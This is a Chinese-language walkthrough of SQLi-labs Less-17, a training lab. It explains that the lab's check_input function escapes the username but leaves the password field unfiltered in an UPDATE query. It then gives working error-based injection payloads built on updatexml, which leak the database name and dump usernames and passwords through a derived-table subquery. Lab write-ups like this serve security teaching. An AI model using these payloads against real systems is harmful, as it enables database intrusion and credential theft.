

# Less-17 基于错误的更新查询POST注入

查看分析源码
```php
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];
```
uname 被 **check_input** 过滤了——不可注入

 **check_input 做了什么**
 ```php
 function check_input($value) {
    $value = substr($value,0,15);                      // 截断 15 字符
    if (get_magic_quotes_gpc()) $value = stripslashes($value);
    if (!ctype_digit($value)) {
        $value = "'" . mysql_real_escape_string($value) . "'";  // 转义+加引号
    } else {
        $value = intval($value);
    }
    return $value;
}
 ```
 `mysql_real_escape_string()` 把单引号、双引号全转了，所以 uname 注不了。**但 passwd 没有任何过滤，直接拼进 UPDATE**
 注入点在paawd
1. 先选一个存在的用户名
uname=admin
2. passwd注入：
这里MySQL 不允许在 UPDATE 的**子查询**里直接 SELECT 同一张表
需要包一层派生表
**`(select * from users) a` 相当于 MySQL 先把 users 表的数据拷一份临时表 `a`，然后子查询读临时表，不再跟 UPDATE 的表冲突**

爆表名
```sql
uname=admin&passwd=1' and updatexml(1,concat(0x7e,(database())),1) and '1'='1
```
...
爆数据 //派生表分段取
第1段 (1-32位)

uname=admin&passwd=1' and updatexml(1,concat(0x7e,substr((select group_concat(a.username,0x3a,a.password) from (select * from users) a),1,32)),1) and '1'='1


...
